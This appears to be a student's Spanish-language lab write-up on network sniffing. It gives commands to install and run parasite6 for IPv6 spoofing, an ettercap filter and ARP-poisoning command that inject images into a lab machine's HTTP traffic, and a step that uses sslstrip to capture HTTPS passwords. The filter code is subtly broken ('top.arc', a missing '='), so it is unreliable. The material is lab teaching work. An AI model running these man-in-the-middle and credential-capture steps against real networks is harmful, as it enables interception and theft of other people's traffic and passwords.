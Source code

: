 Para instalar parasite6:

	http://www.aldeid.com/wiki/THC-IPv6-Attack-Toolkit#Installation

Ejecutar los comandos:

	wget --no-check-certificate http://www.thc.org/releases/thc-ipv6-1.8.tar.gz
	tar xzvf thc-ipv6-1.8.tar.gz
	cd thc-ipv6-1.8/
	make
	sudo make install

Una vez instalado:

	# echo 1 > /proc/sys/net/ipv6/conf/all/forwarding
	# parasite6 -l eth0

### j)
Utilizando un filtro ettercap modifique las imágenes de las páginas http visitadas por una determinada máquina del laboratorio.

Creo el filtro:

	if (ip.proto == TCP && top.arc ==80){
		replace("img src=", "img src\"http://www.diesl.es/WebRoot/StoreES2/Shops/eb0383/5114/DABA/05C5/5876/1B91/AC10/1416/11FA/tux.jpg\"");
		replace("IMG SRC=", "img src=\"http://www.diesl.es/WebRoot/StoreES2/Shops/eb0383/5114/DABA/05C5/5876/1B91/AC10/1416/11FA/tux.jpg\"");
		msg("Filter Ran. \n");
	}

Y luego lo compilo:

	$ etterfilter filtro.filter -o filtro.ef

Luego lo ejecuto:

	# ettercap -T -M arp:remote /192.168.1.1/ /192.168.1.37/ -i wlp1s8 -F filtro.ef


### k)
Utilizando el ettercap-gtk trate de capturar el password de una sesión https.

Activamos el script sslstrip, depues de haber descomentado las lineas en el fichero de configuracion.

### l)
Pruebe alguna herramienta y técnica de detección del sniffing.

Los siguientes plugins de ettercap:
